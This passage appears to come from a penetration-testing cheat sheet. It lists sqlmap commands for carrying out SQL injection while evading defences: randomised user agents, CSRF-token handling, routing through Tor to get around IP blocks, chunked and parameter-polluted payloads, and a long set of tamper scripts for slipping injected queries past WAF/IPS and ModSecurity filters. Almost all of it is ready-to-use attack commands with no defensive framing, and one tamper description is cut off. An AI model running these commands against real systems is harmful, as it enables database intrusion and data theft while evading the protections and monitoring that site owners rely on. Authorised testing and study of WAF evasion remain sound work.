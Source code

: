 **Bypassing defense mechanisms**

 - `sqlmap -r request.txt --random-agent --dbs`  
   User random user agent to overcome UA blocking
 - `sqlmap -r request.txt --csrf-token="csrf-token-parameter-name" --dbs`  
   Read and use CSRF token for each request
 - `sqlmap -r request.txt --randomize="parameter-name-for-random-value" --dbs`  
   Calculate a new random message for each request 
 - `sqlmap -r request.txt --eval="import hashlib; hash_parameter=hashlib.md5(msg).hexdigest()" --dbs`  
   Calculate hash for each request (using Python code)
 - `sqlmap -r request.txt --proxy="socks4://127.0.0.1:9050" --dbs`  
   Use TOR proxy to overcome IP address blocking
 - `sqlmap -r request.txt --chunked --dbs`  
   Send payloads in multiple HTTP packages as chunks to avoid detection
 - `sqlmap -r request.txt --hpp --dbs`  
   Split payloads in multiple instance of the same parameter (e.g.: `?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users`)  
   Works only if a target concatinate those like ASP does!
 - `sqlmap -r request.txt --tamper=0eunion,base64encode,between,commalesslimit,equaltolike,halfversionedmorekeywords,modsecurityversioned,modsecurityzeroversioned,percentage,plus2concat,space2comment,space2dash,space2hash,space2mssqlblank,space2plus,space2randomblank,symboliclogical,versionedkeywords,versionedmorekeywords --dbs`  
   Using pre-defined tamper scripts to bypass WAF/IPS solutions:
    - `0eunion`  
      Replaces instances of `UNION` with `e0UNION`
    - `base64encode`  
      Base64-encodes all characters in a given payload
    - `between`  
      Replaces greater than operator (`>`) with `NOT BETWEEN 0 AND #` and equals operator (`=`) with `BETWEEN # AND #`
    - `commalesslimit`  
      Replaces (MySQL) instances like `LIMIT M, N` with `LIMIT N OFFSET M` counterpart
    - `equaltolike`  
      Replaces all occurrences of operator equal (`=`) with `LIKE` counterpart
    - `halfversionedmorekeywords`  
      Adds (MySQL) versioned comment before each keyword
    - `modsecurityversioned`  
      Embraces complete query with (MySQL) versioned comment
    - `modsecurityzeroversioned`  
      Embraces complete query with (MySQL) zero-versioned comment
    - `percentage`  
      Adds a percentage sign (`%`) in front of each character (e.g. `SELECT` -> `%S%E%L%E%C%T`)
    - `plus2concat`  
      Replaces plus operator (`+`) with (MsSQL) function `CONCAT()` counterpart
    - `randomcase`  
      Replaces each keyword character with random case value (e.g. `SELECT` -> `SEleCt`)
    - `space2comment`  
      Replaces space character with comments `/
    - `space2dash`  
      Replaces space character with a dash comment (`--`) followed by a random string and a new line (`\n`)
    - `space2hash`  
      Replaces (MySQL) instances of space character with a pound character (`#`) followed by a random string and a new line (`\n`)
    - `space2mssqlblank`  
      Replaces (MsSQL) instances of space character with a random blank character from a valid set of alternate characters
    - `space2plus`  
      Replaces space character with plus (`+`)
    - `space2randomblank`  
      Replaces space character with a random blank character from a valid set of alternate characters
    - `symboliclogical`  
      Replaces `AND` and `OR` logical operators with their symbolic counterparts (`&&` and `||`)